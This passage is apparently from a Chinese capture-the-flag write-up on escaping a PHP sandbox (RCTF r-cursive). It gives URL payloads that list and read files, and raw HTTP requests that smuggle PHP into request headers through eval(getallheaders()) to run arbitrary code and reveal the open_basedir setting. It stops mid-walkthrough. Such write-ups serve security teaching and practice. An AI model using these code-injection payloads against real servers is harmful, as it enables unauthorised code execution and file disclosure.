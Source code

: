 ```
?cmd=print(readdir(opendir(getcwd()))); 可以列目录
?cmd=print(readfile(readdir(opendir(getcwd())))); 读文件
?cmd=print(dirname(dirname(getcwd()))); print出/var/www
```

翻阅文档找到`getallheaders()`函数，会返回所有的http请求头，因为header可控，所以可执行任意命令了
?cmd=print(end(getallheaders()));

```
GET /?cmd=eval(implode(getallheaders())); HTTP/1.1
Host: 589bf872527b686d94b4448c8ea3aed4761eaddc.sandbox.r-cursive.ml
cmd: phpinfo(); //
```

![1526973311681](/images/rctf/1526973311681.png)

这里是利用auto_prepend来载入sandbox下的init.php来设置沙盒的open_basedir。

```
You can use auto_prepend option in php.ini to supply script that will be executed first. There you can setup open_basedir via ini_set() function based on contents of $_SERVER array.
answered May 10 '13 at 17:21
gmsalex
20816
Yeah, something like this could do it: ini_set('open_basedir',"/var/www/hosts/$hostname/:/tmp/"); – Sunry Feb 9 at 1:29
```

不修改host:

```
GET /?cmd=eval(end(getallheaders())); HTTP/1.1
Host: 71aabdeb3d708872c6e00e066ae48b2669834df7.sandbox.r-cursive.ml:1337
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cookie: echo ini_get('open_basedir');
```

```
HTTP/1.1 200 OK
Date: Tue, 22 May 2018 07:25:09 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.36
Content-Length: 64
Connection: close
Content-Type: text/html; charset=UTF-8

/var/www/sandbox/71aabdeb3d708872c6e00e066ae48b2669834df7/:/tmp/
```

修改host:
